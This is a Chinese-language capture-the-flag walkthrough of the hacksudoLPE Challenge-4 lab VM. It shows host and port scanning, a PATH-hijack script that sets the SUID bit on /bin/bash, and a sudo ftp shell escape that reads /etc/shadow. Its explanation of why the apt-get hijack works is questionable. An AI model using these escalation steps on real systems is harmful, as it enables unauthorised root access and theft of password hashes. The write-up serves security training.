





下载地址：https://download.vulnhub.com/hacksudo/hacksudoLPE.zip
主机发现
使用 arp-scan 扫描局域网存活主机：
arp-scan -l端口扫描
nmap 全端口扫描：
nmap --min-rate 10000 -p- 192.168.21.147
SSH 登录
SSH 连接靶机查看 Challenge-4 内容：
ssh user@192.168.21.147
sudo -l
可以看到 user 可以以 root 权限执行 apt-get 和 ftp，且无需密码。
apt-get — PATH 劫持
第一种提权方式：PATH 环境变量劫持。apt-get 在执行更新时会调用内部的 apt-get 命令，我们可以在 /tmp 下创建恶意脚本，并将 /tmp 加入 PATH，使 apt-get 优先执行我们的恶意代码。
cd /tmp
echo '#!/bin/bash
chmod u+s /bin/bash' > apt-get
chmod +x apt-get
export PATH=/tmp:$PATH
sudo apt-get update执行完 sudo apt-get update 后，/bin/bash 即被加上 SUID 位：
/bin/bash -p
使用 /bin/bash -p 即可获得 root 权限的 shell。
ftp — 文件读写
第二种提权方式：利用 sudo ftp 读取任意文件（如 /etc/shadow）或写入文件。
sudo ftp进入 ftp 交互模式后，连接本地 ftp 服务或直接使用 get/put 命令操作文件：

sudo ftp
ftp> !cat /etc/shadow通过 ! 前缀执行 shell 命令，以 root 权限读取或写入任意文件：

Challenge-4 的两种提权方式演示完毕。更多 SUID/GUID 命令的利用可参考 GTFOBins。